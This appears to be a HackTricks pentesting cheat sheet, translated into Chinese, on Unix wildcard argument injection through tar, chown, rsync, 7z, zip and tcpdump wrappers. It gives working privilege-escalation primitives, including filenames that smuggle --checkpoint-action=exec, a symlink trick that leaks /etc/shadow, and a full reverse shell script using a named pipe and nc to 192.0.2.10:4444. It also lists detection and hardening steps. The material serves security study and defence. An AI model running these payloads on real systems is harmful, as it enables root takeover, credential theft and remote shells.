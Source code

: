 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> 通配符（又称 *glob*）**参数注入**发生在特权脚本运行 Unix 二进制文件，如 `tar`、`chown`、`rsync`、`zip`、`7z` 等，使用未加引号的通配符，如 `*`。  
> 由于 shell 在执行二进制文件之前会扩展通配符，因此能够在工作目录中创建文件的攻击者可以构造以 `-` 开头的文件名，使其被解释为 **选项而不是数据**，有效地走私任意标志或甚至命令。  
> 本页面收集了 2023-2025 年最有用的原语、最新研究和现代检测。

## chown / chmod

您可以通过滥用 `--reference` 标志来**复制任意文件的所有者/组或权限位**：
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
当 root 后来执行类似的操作时：
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` 被注入，导致 *所有* 匹配的文件继承 `/root/secret``file` 的所有权/权限。

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (组合攻击)。  
另请参阅经典的 DefenseCode 论文以获取详细信息。

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

通过滥用 **checkpoint** 功能执行任意命令：
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
一旦 root 运行 e.g. `tar -czf /root/backup.tgz *`，`shell.sh` 作为 root 被执行。

### bsdtar / macOS 14+

最近的 macOS 上默认的 `tar`（基于 `libarchive`）*不*实现 `--checkpoint`，但你仍然可以通过 **--use-compress-program** 标志实现代码执行，该标志允许你指定一个外部压缩程序。
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
当特权脚本运行 `tar -cf backup.tar *` 时，将启动 `/bin/sh`。

---

## rsync

`rsync` 允许您通过以 `-e` 或 `--rsync-path` 开头的命令行标志覆盖远程 shell 或甚至远程二进制文件：
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
如果 root 后来使用 `rsync -az * backup:/srv/` 归档目录，注入的标志会在远程端生成你的 shell。

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` 模式)。

---

## 7-Zip / 7z / 7za

即使特权脚本 *防御性* 地用 `--` 前缀添加通配符（以停止选项解析），7-Zip 格式通过用 `@` 前缀文件名支持 **文件列表文件**。将其与符号链接结合可以让你 *外泄任意文件*：
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
如果root执行类似于：
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip 将尝试将 `root.txt` (→ `/etc/shadow`) 作为文件列表读取，并将退出，**将内容打印到 stderr**。

---

## zip

`zip` 支持标志 `--unzip-command`，该标志在测试归档时会*逐字*传递给系统 shell：
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
通过精心制作的文件名注入标志，并等待特权备份脚本在生成的文件上调用 `zip -T`（测试归档）。

---

## 额外的易受通配符注入影响的二进制文件（2023-2025 快速列表）

以下命令在现代 CTF 和真实环境中被滥用。有效载荷始终作为一个 *文件名* 创建在一个可写目录中，稍后将通过通配符处理：

| 二进制文件 | 滥用的标志 | 效果 |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → 任意 `@file` | 读取文件内容 |
| `flock` | `-c <cmd>` | 执行命令 |
| `git`   | `-c core.sshCommand=<cmd>` | 通过 SSH 执行 git 命令 |
| `scp`   | `-S <cmd>` | 生成任意程序而不是 ssh |

这些原语不如 *tar/rsync/zip* 经典常见，但在狩猎时值得检查。

---

## tcpdump 轮换钩子 (-G/-W/-z)：通过 argv 注入在包装器中实现 RCE

当受限的 shell 或供应商包装器通过连接用户控制的字段（例如，“文件名”参数）构建 `tcpdump` 命令行时，如果没有严格的引用/验证，您可以偷偷注入额外的 `tcpdump` 标志。`-G`（基于时间的轮换）、`-W`（限制文件数量）和 `-z <cmd>`（后轮换命令）的组合会导致以运行 tcpdump 的用户身份（通常是设备上的 root）执行任意命令。

前提条件：

- 您可以影响传递给 `tcpdump` 的 `argv`（例如，通过像 `/debug/tcpdump --filter=... --file-name=<HERE>` 的包装器）。
- 包装器不清理文件名字段中的空格或以 `-` 开头的标记。

经典 PoC（从可写路径执行反向 shell 脚本）：
```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
--file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```
细节：

- `-G 1 -W 1` 强制在第一个匹配的数据包后立即旋转。
- `-z <cmd>` 在每次旋转后运行后旋转命令。许多构建执行 `<cmd> <savefile>`。如果 `<cmd>` 是脚本/解释器，请确保参数处理与您的有效负载匹配。

不可移动媒体变体：

- 如果您有其他原始方法来写入文件（例如，允许输出重定向的单独命令包装器），将您的脚本放入已知路径并触发 `-z /bin/sh /path/script.sh` 或 `-z /path/script.sh`，具体取决于平台语义。
- 一些供应商包装器旋转到攻击者可控的位置。如果您可以影响旋转路径（符号链接/目录遍历），您可以引导 `-z` 执行您完全控制的内容，而无需外部媒体。

供应商的加固建议：

- 切勿直接将用户控制的字符串传递给 `tcpdump`（或任何工具），而不使用严格的允许列表。引用并验证。
- 不要在包装器中暴露 `-z` 功能；使用固定的安全模板运行 tcpdump，并完全禁止额外标志。
- 降低 tcpdump 权限（仅限 cap_net_admin/cap_net_raw）或在具有 AppArmor/SELinux 限制的专用非特权用户下运行。

## 检测与加固

1. **在关键脚本中禁用 shell 通配符**：`set -f` (`set -o noglob`) 防止通配符扩展。
2. **引用或转义** 参数：`tar -czf "$dst" -- *` 是 *不安全的* — 更倾向于使用 `find . -type f -print0 | xargs -0 tar -czf "$dst"`。
3. **显式路径**：使用 `/var/www/html/*.log` 而不是 `*`，以便攻击者无法创建以 `-` 开头的兄弟文件。
4. **最小权限**：尽可能以非特权服务帐户而不是 root 运行备份/维护作业。
5. **监控**：Elastic 的预构建规则 *通过通配符注入的潜在 Shell* 查找 `tar --checkpoint=*`、`rsync -e*` 或 `zip --unzip-command` 后面紧跟着一个 shell 子进程。EQL 查询可以适应其他 EDR。

---

## 参考文献

* Elastic Security – 检测到的通过通配符注入的潜在 Shell 规则（最后更新于 2025 年）
* Rutger Flohil – “macOS — Tar 通配符注入”（2024 年 12 月 18 日）
* GTFOBins – [tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
* FiberGateway GR241AG – [完整利用链](https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/)

{{#include ../../banners/hacktricks-training.md}}
